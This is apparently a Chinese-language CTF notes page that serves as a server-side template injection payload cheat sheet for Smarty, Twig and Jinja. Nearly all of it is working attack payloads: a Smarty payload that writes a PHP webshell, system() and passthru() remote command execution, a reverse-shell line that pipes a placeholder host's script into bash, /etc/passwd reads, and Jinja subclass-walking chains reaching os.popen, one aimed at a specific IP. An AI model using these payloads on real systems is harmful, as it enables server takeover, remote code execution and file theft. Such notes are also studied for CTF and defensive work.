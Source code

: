 
SSTI，即**服务端模板注入**，起因是服务端接收了用户的输入，将其作为 Web 应用模板内容的一部分，在进行目标编译渲染的过程中，执行了用户插入的恶意内容，从而导致各种各样的问题，与sql注入类似

## Smarty模板

获取smarty版本号：

```
{$smarty.version}
```


执行php代码

```
{php}echo `id`;{/php} //注意这个在3.x版本的时候就已经废弃了
```

getshell

```
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']);?>",self::clearConfig())}
```


RCE

```
{system('ls')}

{if show_source('/flag')}{/if}

{if passthru(“tac fl*”)}{/if}

反弹shell:
{system('curl http://xxx:xxxx/dev.txt|bash')}
```

## twig注入

基础注入：

```
{{7*7}}

{{7*'7'}}

{{dump(app)}}

{{app.request.server.all | join(',')}}
```

任意文件读取：

```
{{'/etc/passwd'|file_excerpt(1,30)}}
```



RCE：

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

{{['id'] | filter('system')}}

{{['cat\x20/etc/passwd'] | filter('system')}}

{{['cat$IFS/etc/passwd'] | filter('system')}}
```

如果有FILTER_VALIDATE_EMAIL时：

```
email = "{{app.request.query.filter(0,0,1024,{'options':'system'})}}"@xx.com
```

## Jinja

检测：{{7*7}}

常用方法

```
__class__ 来获取对象的类（类型）信息
__subclasses__() 用于获取一个类的所有直接子类
__mro__ 返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析
__base__ __mro__ 返回该对象所继承的基类 
__init__ 类的初始化方法 
__globals__ 对包含函数全局变量的字典的引用
__str__ 调用内置函数 str() 或使用 print() 函数来打印对象时，Python 将查找对象的 __str__ 方法，以获取对象的字符串表示
```

```
{%%}可以用来声明变量，当然也可以用于循环语句和条件语句。  
{{}}用于将表达式打印到模板输出  
{##}表示未包含在模板输出中的注释  
##可以有和{%%}相同的效果
```

找到父类`<type 'object'>`-->寻找子类-->找关于命令执行或者文件操作的模块

**获取字符串的类对象**

```
''.__class__ 

<type 'str'>
```

**寻找基类**

```
''.__class__.__mro__ 
             __base__

(<type 'str'>, <type 'basestring'>, <type 'object'>)
```

**寻找可用引用**

```
''.__class__.__mro__[2].__subclasses__() 

import re

str='''[<type 'type'>,......'''
result=re.findall('<class.*?>',str)
for i in range(len(result)):
    if 'os' in result[i]:
        print(result[i])
        print(i)
```

**找到并利用**

```
type file类型(可以进行文件读取)

<class ‘site._Printer’>类型（可以进行命令执行）
<class 'os._wrap_close'>
<class 'subprocess.Popen'>


使用方法：
<class 'os._wrap_close'>.__init__.__globals__['popen']('dir').read() 

<class 'os._wrap_close'>.__init__.__globals__['os']('dir').read() 


<class 'subprocess.Popen'>.('ls',shell=True,stdout=-1).communicate()
```

**构造最终payload**

```
/?name={{%27%27.__class__.__mro__[1].__subclasses__()[132].__init__.__globals__['popen']('dir').read()}}

http://61.147.171.105:62525/{{config.__class__.__init__.__globals__['os'].popen('cat%20fl4g').read()}}

passhash.__str__.__globals__[app].wsgi_app.__globals__[os].environ
```

